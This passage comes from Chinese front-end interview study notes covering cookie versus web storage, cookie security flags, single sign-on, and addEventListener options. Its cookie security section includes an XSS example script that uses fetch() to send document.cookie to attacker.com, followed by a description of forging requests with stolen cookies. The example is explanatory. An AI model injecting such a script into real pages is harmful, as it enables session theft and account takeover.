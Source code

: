 5. Cookie安全

   cookie 因为会被自动夹带在 HTTP 请求中，传送给服务器，因此需要考量到安全性的问题。

   - `Secure`：加上 Secure 可以确保只有在以加密的请求透过 HTTPS 协议时，才会传送给服务器。
   - `HttpOnly`：加上`HttpOnly`， 可以避免 JavaScript 的`Document.cookie`方法取得`HttpOnly cookies`，此方法可以避免跨站脚本攻击([XSS ](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting))。
   - SameSite:控制Cookie在**跨站点请求**中的发送行为，防御CSRF（跨站请求伪造）攻击

   XSS攻击中Cookie窃取与伪造请求的典型示例

   1. 注入恶意脚本
      攻击者通过存在XSS漏洞的输入点（如评论框、URL参数、文件上传）注入恶意JavaScript代码

   ```html
   <script>
     fetch('https://attacker.com/steal?cookie=' + document.cookie);
   </script>
   ```

   2. 窃取用户Cookie
      当受害者访问含恶意脚本的页面时，浏览器自动执行代码，通过`document.cookie`获取当前域下的Cookie，并发送至攻击者控制的服务器

   3. 伪造请求
      攻击者利用窃取的Cookie模拟受害者身份，向目标网站发起请求（如修改账户信息、转账等）

6. 单点登录

   - cookie+session
   - 双token，登录token和刷新token，认证中心返回2个token，

### 面试回答

cookie 、localStorage 和 sessionStorage3中都是前端常用的存储方式。

一、从使用方式来说cookie是后端设置的，其它两个则是前端。

二、从生命周期上来说，cookie可以设置有效时间、localStorage是永久有效、sessionStorage则是关闭该页面、或是关闭浏览器被清除。

三、从存储大小来说，cookie只有4k,而其他2个则有5M或更大。

四、从作用域上来说，sessionStorage只有在同源并且同标签页中才能共享，如果有多个嵌套的同源iframe也行，其它2个则是同源多标签页共享。

五、cookie的安全问题，后端可以设置HttpOnly防止前端可以获取cookie，同时设置Secure和SameSite来阻止HTTP请求携带cookie和阻止当前页跨站点请求携带cookie

六、可以用cookie做单点登录

## 浏览器中监听事件函数 [addEventListener](https://developer.mozilla.org/zh-CN/docs/Web/API/EventTarget/addEventListener) 第三个参数有那些值

### 相关资料

[addEventListener](https://developer.mozilla.org/zh-CN/docs/Web/API/EventTarget/addEventListener)

### 面试回答

1. passive 设置为 `true` 时，表示 `listener` 永远不会调用 `preventDefault()`。如果 listener 仍然调用了这个函数，客户端将会忽略它并抛出一个控制台警告。**允许浏览器在事件监听器执行过程中并行处理默认滚动行为**，从而减少滚动延迟和卡顿
2. capture 该类型的事件捕获阶段触发
3. once 表示 `listener` 在添加之后最多只调用一次，如果为 `true`，`listener` 会在其被调用之后自动移除。
4. signal [`AbortSignal`](https://developer.mozilla.org/zh-CN/docs/Web/API/AbortSignal)，该 `AbortSignal` 的 [`abort()`](https://developer.mozilla.org/zh-CN/docs/Web/API/AbortController/abort) 方法被调用时，监听器会被移除。兼容性不好
